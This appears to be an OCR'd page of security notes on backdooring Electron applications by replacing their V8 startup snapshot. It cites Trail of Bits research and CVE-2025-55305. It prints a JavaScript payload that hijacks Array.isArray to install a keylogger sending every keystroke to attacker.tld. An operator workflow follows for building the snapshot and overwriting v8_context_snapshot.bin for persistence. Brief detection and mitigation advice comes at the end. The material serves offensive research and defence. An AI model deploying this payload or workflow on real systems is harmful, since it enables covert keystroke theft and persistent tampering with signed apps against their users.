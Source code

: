 ```
Array.isArray = function() {
  // Wait for a browser context
  try {
    if (!alert) {
      return orig(...arguments);
    }
  } catch (_) {
    return orig(...arguments);
  }

  if (!globalThis._invoke_lock) {
    globalThis._invoke_lock = true;
    setInterval(() => {
      window.onkeydown = (e) => {
        fetch('http://attacker.tld/keylogger?q=' + encodeURIComponent(e.key), {mode: 'no-cors'})
      }
    }, 1000);
  }
  return orig(...arguments);
};
```
```
Operator workflow
1) Write payload.js that clobbers a common builtin (e.g., Array.isArray) and optionally branches per isolate.
2) Build the snapshot without Chromium sources:
   - npx -y electron-mksnapshot@37.2.6 "/abs/path/to/payload.js"
3) Overwrite the target application’s snapshot file(s):
   - v8_context_snapshot.bin (always used)
   - browser_v8_context_snapshot.bin (if the LoadBrowserProcessSpecificV8Snapshot fuse is used)
4) Launch the application; the gadget executes whenever the chosen builtin is used.

Notes and considerations
- Integrity/signature bypass: Snapshot files are not treated as native executables by code-signing checks and (historically) were not covered by Electron’s fuses or Chromium integrity controls.
- Persistence: Replacing the snapshot in a user-writable install typically survives app restarts and looks like a signed, legitimate app.
- Chromium browsers: The same tampering concept applies to Chrome/derivatives installed in user-writable locations. Chrome has other integrity mitigations but explicitly excludes physically local attacks from its threat model.

Detection and mitigations
- Treat snapshots as executable content and include them in integrity enforcement (CVE-2025-55305 fix).
- Prefer admin-writable-only install locations; baseline and monitor hashes for v8_context_snapshot.bin and browser_v8_context_snapshot.bin.
- Detect early-runtime builtin clobbering and unexpected snapshot changes; alert when deserialized snapshots do not match expected values.

## **References**

- [[https://blog.trailofbits.com/2025/09/03/subverting-code-integrity-checks-to-locally-backdoor-signal-1password-slack-and-more/|Trail of Bits: Subverting code integrity checks to locally backdoor Signal, 1Password, Slack, and more]]
- [[https://www.electronjs.org/docs/latest/tutorial/fuses|Electron fuses]]
- [[https://www.electronjs.org/docs/latest/tutorial/asar-integrity|Electron ASAR integrity]]
- [[https://v8.dev/blog/custom-startup-snapshots|V8 custom startup snapshots]]
- [[https://github.com/electron/mksnapshot|electron/mksnapshot]]
- [[https://attack.mitre.org/techniques/T1218/015/|MITRE ATT&CK T1218.015]]
- [[https://github.com/boku7/Loki/|Loki C2]]
- [[https://chromium.googlesource.com/chromium/src/+/refs/heads/lkgr/docs/design/sandbox.md#disable-loading-of-unsigned-code-cig|Chromium: Disable loading of unsigned code (CIG)]]
```